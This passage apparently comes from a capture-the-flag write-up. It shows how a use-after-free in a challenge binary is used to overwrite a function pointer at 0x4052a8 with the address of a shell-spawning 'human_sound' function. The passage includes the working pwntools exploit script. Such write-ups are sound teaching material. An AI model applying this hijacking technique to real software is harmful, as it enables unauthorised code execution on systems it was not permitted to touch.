 #### 4. Play sound

And the special thing here is that at 0x4052a8 the sound attribute is saved, and when we choose `play sound`, the program will execute the function it is pointing to. So we can control `play sound` as we want.

![alt text](/images/image-12-6.png)

And here, in the program there is also an unused function called `human_sound`, this function will create a shell. So we will overwrite the address of the `human_sound` function to location 0x4052a8 so that when choosing `play_sound`, the program will execute the `human_sound` function and create a shell.

```
sln(b'> ', 1)
sln(b'Index: ', 1)
sln(b'> ', 1)
sln(b'size: ', 100)
sla(b'Name: ', b'A')

# Use-After-Free
sln(b'> ', 3)
sln(b'Index: ', 1)

sln(b'> ', 2)
sln(b'Index: ', 1)
sln(b'size: ', 16)
sa(b'Name: ', b'A'*8 + p64(exe.sym.human_sound)[:7])        # Here I only enter 15 bytes because the `fgets` function allows to enter up to 0x10 -1 byte = 15 bytes.

sln(b'> ', 4)
sln(b'Index: ', 1)
```

![alt text](/images/image-13-6.png)